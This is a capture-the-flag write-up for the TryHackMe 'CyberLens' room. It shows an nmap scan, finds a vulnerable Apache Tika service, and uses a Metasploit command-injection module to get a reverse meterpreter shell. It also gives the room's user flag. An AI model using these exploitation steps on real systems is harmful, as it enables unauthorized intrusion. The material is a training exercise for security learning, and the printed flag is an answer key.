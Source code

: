 # CyberLens

### CyberLens
Be sure to add the IP to your /etc/hosts file: `sudo echo '10.10.46.248 cyberlens.thm' >> /etc/hosts`<br />
After an initial scan to check what ports are open, this is the result of a more targeted scan: 

    nmap 10.10.46.248 -p80,135,139,445,3389 -sV -sC -oN scan
    Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-30 20:14 CEST
    Nmap scan report for cyberlens.thm (10.10.46.248)
    Host is up (0.045s latency).
    
    PORT     STATE SERVICE       VERSION
    80/tcp   open  http          Apache httpd 2.4.57 ((Win64))
    |_http-server-header: Apache/2.4.57 (Win64)
    | http-methods: 
    |_  Potentially risky methods: TRACE
    |_http-title: CyberLens: Unveiling the Hidden Matrix
    135/tcp  open  msrpc         Microsoft Windows RPC
    139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
    445/tcp  open  microsoft-ds?
    3389/tcp open  ms-wbt-server Microsoft Terminal Services
    | rdp-ntlm-info: 
    |   Target_Name: CYBERLENS
    |   NetBIOS_Domain_Name: CYBERLENS
    |   NetBIOS_Computer_Name: CYBERLENS
    |   DNS_Domain_Name: CyberLens
    |   DNS_Computer_Name: CyberLens
    |   Product_Version: 10.0.17763
    |_  System_Time: 2024-09-30T18:14:34+00:00
    |_ssl-date: 2024-09-30T18:14:42+00:00; -2s from scanner time.
    | ssl-cert: Subject: commonName=CyberLens
    | Not valid before: 2024-09-29T18:11:49
    |_Not valid after:  2025-03-31T18:11:49
    Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
    
    Host script results:
    | smb2-time: 
    |   date: 2024-09-30T18:14:37
    |_  start_date: N/A
    | smb2-security-mode: 
    |   3:1:1: 
    |_    Message signing enabled but not required
    |_clock-skew: mean: -2s, deviation: 0s, median: -2s

Opening the webserver, it seems like it is a service used to get metadata from files, specifically image files.<br />
![image](https://github.com/user-attachments/assets/eed84af8-6657-4663-9e1f-acb6e1439792)<br />
However, as you can see from the image above, one can also upload .sh files, and the service correctly labels it as sh application. 
However, after enumerating a bit the website and capturing requests with burpsuite, I noticed something interesting: <br />
![image](https://github.com/user-attachments/assets/169a4eb3-8c42-42d4-86d5-dbb990934eae)<br />
I'm making requests to port 61777 of the webserver. So I immediatly tried to scan that port to check what it is: <br />
![image](https://github.com/user-attachments/assets/18a324db-e21a-4301-acf3-d8b2a8e1a19b)<br />
Jetty is simply a web server. So I visited `cyberlens.thm:61777` to see what comes up:<br />
![image](https://github.com/user-attachments/assets/ccf85c00-4d99-4bd9-987f-057283d2d1f0)<br />
Apache Tika is an open source library used to detect and extract metadata from files. This page is apparently showing us the endpoints that we can use to interact with it. And here's an interesting endpoint: <br />
![image](https://github.com/user-attachments/assets/a6891ab3-01c4-4961-8bfe-6fd97d766fe6)<br />
![image](https://github.com/user-attachments/assets/7afb34cb-bc52-433f-80e1-b765a422ad8c)<br />
That endpoint gave me the version of the Tika software that's being used. After some enumeration, I found out that this Tika version is vulnerable to command injection, and the exploit is available on metasploit. The module name is `windows/http/apache_tika_jp2_jscript)`. 
Correctly set up the options, in my case: 

    set LHOST 10.11.85.53
    set rhosts 10.10.46.248
    set rport 61777
    run
And I got a meterpreter session. Inside `C:\Users\Cyberlens\Desktop` we can find user.txt(flags are at the end of this writeup): <br />
![image](https://github.com/user-attachments/assets/727249b4-5fee-43f9-9a8f-385aeb1a4f81)<br />

- What is the user flag?  `THM{T1k4-CV3-f0r-7h3-w1n}`
- What is the admin flag? 
